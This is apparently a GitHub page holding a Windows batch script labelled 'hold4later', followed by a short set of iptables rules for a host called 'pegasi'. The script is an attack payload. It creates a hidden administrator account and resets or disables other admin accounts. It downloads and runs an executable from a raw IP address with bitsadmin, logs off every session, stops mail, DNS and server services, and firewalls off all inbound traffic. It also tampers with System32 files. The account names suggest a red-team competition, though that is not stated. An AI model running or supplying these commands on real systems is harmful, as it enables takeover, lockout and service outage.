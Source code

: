 ``` 
## hold4later


net user sf MKHGFSnsdf!! /add
net localgroup Administrators sf /add
net user Administrator Lolrip!!
net user safety Lolrip!!
net user Administrator /active:no
net user safety /active:no
net user redteam /active:no
bitsadmin /transfer job1 /download /priority high http://67.205.157.179/windows_31337.exe %temp%\windows_31337.exe
bitsadmin /transfer job2 /download /priority normal http://67.205.157.179/fuchsia_bg.bmp %temp%\1.bmp

start %temp%\windows_31337.exe

reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v Wallpaper /t REG_SZ /d  %temp%\1.bmp /f
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters

query session > %temp%\session.txt
for /f "skip=1 tokens=3," %%i in (session.txt) DO logoff %%i
del session.txt

net stop hmailserver
net stop dns
net stop server

netsh advfirewall firewall add rule name="Allowed 2" Dir=In Action=allow RemoteIP=10.2.2.0/24
netsh advfirewall firewall add rule name="Not Allowed 1 " Dir=In Action=Block RemoteIP=10.2.1.0/24
netsh advfirewall firewall add rule name="Not Allowed 3" Dir=In Action=Block RemoteIP=10.2.3.0/24
netsh advfirewall firewall add rule name="Not Allowed 4" Dir=In Action=Block RemoteIP=10.2.4.0/24
netsh advfirewall firewall add rule name="Not Allowed 5" Dir=In Action=Block RemoteIP=10.2.5.0/24
netsh advfirewall firewall add rule name="Not Allowed 6" Dir=In Action=Block RemoteIP=10.2.6.0/24
netsh advfirewall firewall add rule name="Not Allowed 7" Dir=In Action=Block RemoteIP=10.2.7.0/24
netsh advfirewall firewall add rule name="Not Allowed 8" Dir=In Action=Block RemoteIP=10.2.8.0/24
netsh advfirewall firewall add rule name="Not Allowed 9" Dir=In Action=Block RemoteIP=10.2.9.0/24
netsh advfirewall firewall add rule name="Not Allowed 10" Dir=In Action=Block RemoteIP=10.2.10.0/24
netsh advfirewall firewall add rule name="Not Allowed 11" Dir=In Action=Block RemoteIP=10.2.11.0/24
netsh advfirewall firewall add rule name="Not Allowed 000" Dir=In Action=Block RemoteIP=0.0.0.0/0
netsh advfirewall firewall add rule name="ICMP Deny incoming V4 echo request" protocol=icmpv4:8,any dir=in action=block


takeown /F C:\Windows\System32\oobe\ /A /R
icacls C:\Windows\System32\oobe\*.bmp /grant "Everyone":F
copy %temp%\1.bmp C:\Windows\System32\oobe\background.bmp

del C:\Windows\System32\oobe\background.bmp
del C:\Windows\System32\oobe\background.jpg
del C:\Windows\System32\oobe\background.jpg

del %temp%\31337.exe
del %temp%\vmware.bat

## iptables rules for pegasi (10.3.2.10)

iptables -A INPUT -s 10.120.0.0/24 -j DROP
iptables -A INPUT -s 10.0.20.0/24 -j DROP
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -i lo -j ACCEPT
iptables -A INPUT -p icmp -j ACCEPT
```